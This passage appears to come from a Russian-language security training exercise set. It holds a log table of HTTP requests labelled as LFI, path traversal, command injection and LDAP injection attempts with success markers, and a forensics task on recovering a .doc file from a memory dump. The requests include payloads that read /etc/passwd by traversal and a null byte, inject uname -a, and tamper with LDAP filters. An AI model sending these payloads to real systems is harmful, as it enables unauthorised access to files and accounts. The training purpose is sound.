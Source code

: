 ```---------------------------------------------------------------------------------------------------------------------------------------------------
 | 23 | Yes       | LFI                  | GET /test6/example3.php?file=/etc/passwd HTTP/1.1                                                |   No     |
 | 24 | Yes       | LFI                  | GET /test6/example3.php?file=../../../../../etc/passwd HTTP/1.1                                  |   No     |
 | 25 | Yes       | LFI                  | GET /test6/example3.php?file=../../../../../etc/passwd%00 HTTP/1.1                               |   Yes    |
 | 26 | No        | -                    | GET /test6/example2.php HTTP/1.1                                                                 |   -      |
 | 27 | No        | -                    | GET / HTTP/1.1                                                                                   |   -      |
 | 28 | Yes       | Path Traversal       | GET /dirtrav/example1.php?file=hacker.png HTTP/1.1                                               |   No     |
 | 29 | Yes       | Path Traversal       | GET /dirtrav/example2.php?file=/var/www/files/hacker.png HTTP/1.1                                |   No     |
 | 30 | Yes       | Path Traversal       | GET /dirtrav/example3.php?file=hacker HTTP/1.1                                                   |   No     |
 | 31 | No        | -                    | GET /test5/example1.php?name=hacker HTTP/1.1                                                     |   -      |
 | 32 | No        | -                    | GET /test5/example1.php?name=hacker%22 HTTP/1.1                                                  |   -      |
 | 33 | No        | Command Injection    | GET /test5/example1.php?name=hacker%22.%27uname%20-a%27;%22 HTTP/1.1                             |   No     |
 | 34 | No        | Command Injection    | GET /test5/example1.php?name=hacker%22.(%27uname%20-a%27); HTTP/1.1                              |   !?     |
 | 35 | No        | -                    | GET / HTTP/1.1                                                                                   |   -      |
 | 36 | Yes       | Path Traversal       | GET /dirtrav/example1.php?file=hacker.png HTTP/1.1                                               |   No     |
 | 37 | Yes       | Path Traversal       | GET /dirtrav/example2.php?file=/var/www/files/hacker.png HTTP/1.1                                |   No     |
 | 38 | Yes       | Path Traversal       | GET /dirtrav/example3.php?file=hacker HTTP/1.1                                                   |   No     |
 | 39 | Yes       | LDAP Injection       | GET /test3/example2.php?name=hacker&password=hacker HTTP/1.1                                     |   Yes    |
 | 40 | Yes       | LDAP Injection       | GET /test3/example2.php?name=hacker&password=hacker%27%20or%20%271%27=%271 HTTP/1.1              |   Yes    |
 | 41 | Yes       | LDAP Injection       | GET /test3/example2.php?name=hacker&password=hacker%27%20or%20%271%27=%271%20--%20r HTTP/1.1     |   Yes    |
 | 42 | Yes       | LDAP Injection       | GET /test3/example2.php?name=hacker%27%20or%20%271%27=%271%27%20--%201&password=hacker HTTP/1.1  |   Yes    |
 | 43 | Yes       | LDAP Injection       | GET /test3/example2.php?name=hackerhacker)(cn=*))&password=hacker HTTP/1.1                       |   !?     |
 | 44 | Yes       | LDAP Injection       | GET /test3/example2.php?name=hackerhacker)(cn=*))%00&password=hacker HTTP/1.1                    |   Yes    |
 | 45 | Yes       | LDAP Injection       | GET /test3/example2.php?name=hacker)(cn=*))%00&password=hacker HTTP/1.1                          |   Yes    |
  ```
# Задание 7
При возникновении инцидента информационной безопасности нарушитель повредил накопитель на жестких магнитных дисках. Единственное, что успели специалисты, это сохранить дамп оперативной памяти **«20190227.mem»** на съемный носитель. Во время инцидента у нарушителя на рабочем столе компьютера был открыт очень важный документ c расширением **«.doc»**, восстановите этот документ. (Вы можете использовать утилиты для работы с оперативной памятью и восстановлением файлов, например **volatility**)
